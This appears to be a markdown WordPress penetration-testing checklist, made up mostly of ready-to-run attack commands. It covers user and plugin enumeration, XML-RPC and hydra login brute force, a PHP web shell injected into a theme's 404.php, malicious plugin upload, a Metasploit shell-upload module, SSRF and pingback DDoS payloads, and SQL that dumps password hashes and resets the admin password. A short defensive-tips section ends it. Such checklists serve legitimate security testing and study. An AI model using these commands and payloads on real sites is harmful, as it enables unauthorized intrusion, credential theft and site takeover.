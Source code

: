 # 🌀 WordPress Pentesting Checklist & Commands

## 🎯 What am I realistically expecting to find here?

⭐ After discovering a WordPress site (usually on ports 80/443), I realistically expect to:

- [ ] Identify installed WordPress version, plugins, and themes
- [ ] Enumerate valid users
- [ ] Exploit weak passwords (XML-RPC, login forms)
- [ ] Find RCE via plugin/theme file edit or upload
- [ ] Abuse XML-RPC for SSRF, brute force, or DDoS
- [ ] Post-exploit: extract hashes, change admin password
- [ ] Look for SSRF via oEmbed or pingback
- [ ] Get shell via plugin or theme injection

---

## ✅ WordPress Pentest Checklist

- [ ] **Check robots.txt**
  ```
  curl -s http://<site>/robots.txt
  ```

- [ ] **WordPress Version**
  ```
  curl -s http://<site>/license.txt
  curl -s http://<site>/readme.html
  curl -s http://<site> | grep -Ei 'WordPress|ver='
  ```

- [ ] **Theme & Plugin Enumeration**
  ```
  curl -s http://<site> | grep 'wp-content/themes/' | cut -d '"' -f2
  curl -s http://<site> | grep 'wp-content/plugins/' | cut -d '"' -f2
  curl -s http://<site> | grep '?ver=' | cut -d '"' -f2
  ```

- [ ] **User Enumeration**
  - ID Brute:
    ```
    curl -I http://<site>/?author=1
    ```
  - wp-json API:
    ```
    curl http://<site>/wp-json/wp/v2/users
    ```

- [ ] **XML-RPC Brute Force**
  - Check if enabled:
    ```
    curl http://<site>/xmlrpc.php
    ```
  - Brute single user:
    ```xml
    <methodCall>
      <methodName>wp.getUsersBlogs</methodName>
      <params>
        <param><value>admin</value></param>
        <param><value>password</value></param>
      </params>
    </methodCall>
    ```
  - Use system.multicall for fast bruteforce

- [ ] **Login Brute Force**
  ```
  wpscan --url http://<site> -U admin -P rockyou.txt --password-attack xmlrpc
  ```

  ```
  hydra -L users.txt -p admin <IP> http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&...:Invalid Username"
  hydra -l admin -P rockyou.txt <IP> http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&...:password you entered"
  ```

---

## ✅ Remote Code Execution (RCE)

- [ ] **Theme File Edit (Admin Panel)**
  - Inject payload in `/wp-content/themes/<theme>/404.php`:
    ```php
    <?php system($_GET[0]); ?>
    ```
  - Trigger:
    ```
    curl http://<site>/wp-content/themes/<theme>/404.php?0=id
    ```

- [ ] **Upload Malicious Plugin (Admin Panel)**
  - Zip your PHP shell plugin
  - Upload via: Dashboard > Plugins > Add New > Upload Plugin
  - Activate & trigger via `/wp-content/uploads/...`

- [ ] **Metasploit**
  ```
  use exploit/unix/webapp/wp_admin_shell_upload
  set RHOSTS <IP>
  set USERNAME <admin>
  set PASSWORD <pass>
  run
  ```

---

## ✅ SSRF & DDoS Checks

- [ ] **oEmbed SSRF**
  ```
  curl "http://<site>/wp-json/oembed/1.0/proxy?url=http://<your-host>"
  ```

- [ ] **Pingback DDoS / Port Scan**
  ```xml
  <methodCall>
    <methodName>pingback.ping</methodName>
    <params>
      <param><value><string>http://target:port</string></value></param>
      <param><value><string>http://<site>/valid-post</string></value></param>
    </params>
  </methodCall>
  ```

---

## ✅ Post-Exploitation

- [ ] **Dump WP Users**
  ```
  mysql -u root -p -e "use wordpress; select user_login, user_pass from wp_users;"
  ```

- [ ] **Change Admin Password**
  ```
  mysql -u root -p -e "use wordpress; update wp_users set user_pass=MD5('hacked') where ID=1;"
  ```

---

## ✅ Recommended Tools

- `wpscan` → full enum + brute force
- `hydra` → brute login form
- `cmsmap` → auto scan & attack
- `Metasploit` → plugin/theme RCE modules

---

## ✅ WordPress Security Tips (Defensive)

- [ ] Enable auto-updates:
  ```php
  define('WP_AUTO_UPDATE_CORE', true);
  add_filter('auto_update_plugin', '__return_true');
  add_filter('auto_update_theme', '__return_true');
  ```

- [ ] Use security plugins:
  - Wordfence, Sucuri, iThemes

- [ ] Best practices:
  - Remove default admin
  - Strong passwords + 2FA
  - Restrict `/wp-admin` access
  - Limit login attempts
  - Regularly review user roles
